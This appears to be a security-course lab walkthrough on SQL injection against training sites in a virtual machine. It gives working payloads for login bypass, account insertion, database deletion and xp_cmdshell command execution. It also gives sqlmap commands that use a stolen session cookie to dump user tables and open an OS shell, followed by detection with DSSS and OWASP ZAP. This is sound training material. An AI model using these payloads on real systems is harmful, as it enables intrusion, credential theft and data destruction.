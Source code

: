 # LAB 15 - SQL injection

## Lab 1 - Perform SQL injection attacks

SQL injection can be used to implement the following attacks:

- **Authentication bypass** An attacker logs into an application without providing a valid username and password and gains administrative privileges
- **Information disclosure** An attacker obtains sensitive information that is stored in the database
- **Compromised availability of data** An attacker deletes specific information, the log, or audit information in a database
- **Remote code execution** An attacker executes a piece of code remotely that can compromise the host OS

### Lab 15.1 - task 1 - Perform an SQL injection attack on an MSSQL Database

This task uses the [http://www.goodshopping.com] site who is hosted in the Windows server 2019 virtual machine.

#### Task 1.1 - Login without valid credentials

In the login form, in the Username field, type the query:

```sql
blah' or 1=1
```

and leave the password field empty. Click the Log in button.

You are logged into the website with a fake login

#### Task 1.2 - Create your own user account

In the login form, in the Username field, type the query:

```sql
blah';INSERT INTO login VALUES('john','apple123'); --
```

and leave the password field empty. Click the Log in button.

If no error message is displayed, it means that you have successfully created your login using an SQL injection query.

#### Task 1.3 - Create and delete database

In the login form, in the Username field, type the query:

```sql
blah';CREATE DATABASE mydatabase; --
```

and leave the password field empty. Click the Log in button.

If no error message is displayed, it means that the site is vulnerable to SQL injection and a database with the name mydatabase has been created on the database server.

In the login form, in the Username field, type the query:

```sql
blah';DROP DATABASE mydatabase; --
```

and leave the password field empty. Click the Log in button.

#### Task 1.4 - Perform ping operation using SQL injection

In the login form, in the Username field, type the query:

```sql
blah';EXEC master..xp_cmdshell 'ping www.certifiedhacker.com -l 65000 -t'; --
```

and leave the password field empty. Click the Log in button.

The login page shows a Waiting for www.goodshopping.com... message at the bottom of the window.

### Lab 15.1 - task 2 - Perform an SQL injection attack against MSSQL Database to extract databases using sqlmap

In this lab, you will pretend that you are a registered user on the [http://www.moviescope.com] website, and you want to crack the passwords of the others users from the website's database.

The site is hosted on the Windows server 2019 virtual machine.

#### Task 2.1 - Login in to MovieScope

After you login with the registered user, click "View profile" and make a note of the URL in the address bar of the browser.

Right click anywhere on the webpage and click "Inspect element" from the context menu. The developers tools frame appears.

#### Task 2.2 - Obtain session cookie

Click the Console tab, type document.cookie and press Enter.

Select the cookie value, then right-click and copy it.

#### Task 2.3 - Retrieve database

On the terminal, type:

```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<cookie value that you copied>" --dbs
```

and press Enter.

This query causes sqlmap to enforce various injection techniques on the name parameter of the URL in an attempt to extract the database information of the MovieScope website.

Press Y for each message that appears and Enter to continue.

sqlmap retrieves the database present in the MSSQL server. It also displays information about the web server OS, web application technology, and the backend DBMS.

Now, you need to choose a database and use sqlmap to retrieve his tables.

```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<cookie value which you have copied>" -D moviescope --tables
```

and press Enter.

sqlmap retrieves the table contents of the moviescope database and displays them.

#### Task 2.4 - Retrieve user accounts

On the terminal, type:

```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<cookie value that you copied>" -D moviescope -T User_Login --dump
```

and press Enter to dump all the User_Login table content.

#### Task 2.5 - Log in to MovieScope using different account

#### Task 2.6 - Open an interactive OS shell

On the terminal, type:

```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<cookie value that you copied>" --os-shell
```

and press Enter.

Once sqlmap acquires the permission to optimize the machine, it will provide you with the OS shell.

Type **hostname** to find the machine name where the site is running.

Type **TASKLIST** and press Enter to view a list of tasks that are currently running on the target system.

You can use various other commands to obtain further detailed information about the target machine (type help and press Enter to view the available commands).

## Lab 2 - Detect SQL injection vulnerabilities using various detection tools

### Lab 15.2 - task 1 - Detect SQL injection vulnerabilities using DSSS

#### Task 1.1 - Clone DSSS repository

On the terminal type

```bash
git clone https://github.com/stamparm/DSSS

cd DSSS

python3 dsss.py
```

#### Task 1.2 - Log in to MovieScope

#### Task 1.3 - Obtain session cookie

#### Task 1.4 - Scan the website for SQL injection vulnerabilities

On the terminal type

```bash
python3 dsss.py -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<cookie value which you have copied>"
```

and press Enter.

The result shows that the target website is vulnerable. The vulnerable link is displayed.

#### Task 1.5 - View the vulnerable website link

Copy the vulnerable website link, paste it in to Browser.

You will observe that information regarding available user accounts appears under the View profile tab.

### Lab 15.2 - task 2 - Detect SQL injection vulnerabilities using OWASP ZAP

#### Task 2.1 - Launch and configure OWASP ZAP

#### Task 2.2 - Perform automated scan

Enter the target website in the "URL to attack" field, and then click the "Attack" button.

After the scan completes, Alerts tab appears.

Expand the SQL injection vulnerability node.
